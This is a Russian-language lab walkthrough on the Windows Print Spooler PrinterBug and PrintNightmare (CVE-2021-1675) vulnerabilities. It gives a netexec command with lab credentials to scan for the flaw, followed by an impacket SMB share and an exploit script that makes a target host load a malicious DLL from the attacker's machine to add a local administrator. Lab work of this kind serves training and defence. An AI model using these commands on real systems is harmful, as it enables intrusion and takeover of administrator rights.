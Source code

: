**MS_RPRN, уязвимость PrinterBug**
Microsoft’s Print Spooler - это служба, обрабатывающая задания печати и другие различные задачи, связанные с печатью. Злоумышленник, контролирующий пользователя/компьютер в домене, может с помощью определенного вызова RPC заставить службу выбранного узла пройти аутентификацию на цели, указанной злоумышленником.


Злоумышленник может проверить наличие уязвимости следующим образом.

```
netexec smb 192.168.56.0/24 -u 'jorah.mormont' -p 'H0nnor!' -d 'meereen.essos.local' -M printnightmare
```

![](/images/coerce/Pasted%20image%2020250107225256.png)

Злоумышленник может разместить вредоносную библиотеку у себя на сервере и заставить уязвимый хост ее запустить. Вредоносная библиотека может содержать команды на создание локального пользователя и предоставление ему прав локального администратора хоста.
```
impacket-smbserver -smb2support ATTACKERSHARE .
python3 /home/kali/printnightmare/CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@braavos.essos.local '\\192.168.56.200\ATTACKERSHARE\adduser.dll'
```

![](/images/coerce/Pasted%20image%2020250107231941.png)
